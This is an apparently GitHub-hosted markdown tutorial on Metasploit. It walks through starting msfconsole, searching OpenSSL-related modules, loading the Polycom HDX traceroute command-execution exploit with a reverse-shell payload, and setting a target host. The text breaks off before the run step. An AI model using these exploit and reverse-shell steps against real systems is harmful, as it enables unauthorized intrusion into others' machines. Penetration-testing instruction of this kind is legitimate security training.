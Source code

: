 # Metasploit

Metasploit is a penetration testing framework that makes hacking simple. It is a powerful tool that can be used to exploit vulnerabilities in a system.

## Usage

To use Metasploit, you need to start the Metasploit console by running the following command:

```bash
msfconsole
```

Once you have started the Metasploit console, you can use the `search` command to search for exploits, payloads, and other modules. For example, to search for exploits that target a specific service, you can run the following command:

```bash
search <service>

msf6 > search OpenSSL

Matching Modules
================

   #   Name                                                  Disclosure Date  Rank       Check  Description
   -   ----                                                  ---------------  ----       -----  -----------
   0   payload/bsd/x86/exec                                                   normal     No     BSD Execute Command
   1   payload/osx/x86/exec                                                   normal     No     OS X Execute Command
   2   auxiliary/server/openssl_altchainsforgery_mitm_proxy  2015-07-09       normal     No     OpenSSL Alternative Chains Certificate Forgery MITM Proxy
   3   auxiliary/dos/ssl/dtls_changecipherspec               2000-04-26       normal     No     OpenSSL DTLS ChangeCipherSpec Remote DoS
   4   auxiliary/dos/ssl/dtls_fragment_overflow              2014-06-05       normal     No     OpenSSL DTLS Fragment Buffer Overflow DoS
   5   auxiliary/server/openssl_heartbeat_client_memory      2014-04-07       normal     No     OpenSSL Heartbeat (Heartbleed) Client Memory Exposure
   6   auxiliary/scanner/ssl/openssl_heartbleed              2014-04-07       normal     Yes    OpenSSL Heartbeat (Heartbleed) Information Leak
   7   auxiliary/scanner/ssl/openssl_ccs                     2014-06-05       normal     No     OpenSSL Server-Side ChangeCipherSpec Injection Scanner
   8   auxiliary/dos/ssl/openssl_aesni                       2013-02-05       normal     No     OpenSSL TLS 1.1 and 1.2 AES-NI DoS
   9   exploit/unix/misc/polycom_hdx_traceroute_exec         2017-11-12       excellent  Yes    Polycom Shell HDX Series Traceroute Command Execution
   10  auxiliary/scanner/ssl/ssl_version                     2014-10-14       normal     No     SSL/TLS Version Detection
   11  payload/cmd/unix/reverse_openssl                                       normal     No     Unix Command Shell, Double Reverse TCP SSL (openssl)


Interact with a module by name or index. For example info 11, use 11 or use payload/cmd/unix/reverse_openssl
```

To use an exploit, you can use the `use` command followed by the name or index of the exploit. For example, to use the `exploit/unix/misc/polycom_hdx_traceroute_exec` exploit, you can run the following command:

```bash
msf6 > use exploit/unix/misc/polycom_hdx_traceroute_exec 
[*] Using configured payload cmd/unix/reverse
msf6 exploit(unix/misc/polycom_hdx_traceroute_exec) > options

Module options (exploit/unix/misc/polycom_hdx_traceroute_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CBHOST                     no        The listener address used for staging the final payload
   CBPORT                     no        The listener port used for staging the final payload
   PASSWORD                   no        Password to access console interface if required.
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     23               yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```

Using options as we can see above, we can set the required options for the exploit. To set an option, you can use the `set` command followed by the option name and value. For example, to set the `RHOSTS` option to `

```bash
msf6 exploit(unix/misc/polycom_hdx_traceroute_exec) > set RHOSTS 10.10.11.3
RHOSTS => 10.10.11.3
```

Then to run the exploit, you can use the `run`